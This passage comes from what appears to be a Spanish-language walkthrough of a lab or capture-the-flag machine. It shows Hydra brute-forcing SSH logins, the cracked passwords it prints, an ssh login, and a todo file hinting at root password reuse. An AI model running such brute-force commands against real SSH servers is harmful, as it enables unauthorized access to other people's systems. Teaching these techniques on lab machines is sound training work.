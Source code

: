 ```
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.5.195:22/
[STATUS] 366.00 tries/min, 366 tries in 00:01h, 14344059 to do in 653:12h, 38 active
[STATUS] 259.67 tries/min, 779 tries in 00:03h, 14343653 to do in 920:39h, 31 active
[22][ssh] host: 192.168.5.195   login: jules   password: sexylady
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
[ERROR] 23 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-20 11:11:58
```

Por lo que inspeccionaremos con ese usuario...

Vemos que hay una carpeta llamada `.backups/` si nos metemos dentro solo habra 2 archivos llenos de diccionario de palabras, llamados `.good-passwd` y `.bad-passwds`, si probamos el archivo `.good-passwd` veremos que no encuentra nada, pero si probamos el archivo `.bad-passwds` veremos lo siguiente...

```shell
hydra -l john -P .bad-passwds ssh://<IP> -t 64
```

Info:

```
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344400 login tries (l:1/p:14344400), ~224132 tries per task
[DATA] attacking ssh://192.168.5.195:22/
[22][ssh] host: 192.168.5.195   login: john   password: zhnmju!!!
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 25 final worker threads did not complete until end.
[ERROR] 25 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-20 11:22:08
```

Por lo que nos conectaremos al `ssh`...

```shell
ssh john@<IP>
```

Metiendo la contraseña ya estaremos dentro, si dentro de la `/home` nos vamos a `.todo/` habra un archivo llamado `todo.list` si lo leemos veremos lo siguiente...

```
1. Install LAMP
2. Install MAIL-System
3. Install Firewall
4. Install Plesk
5. Chance R00TPASSWD, because it's the same right now.
```
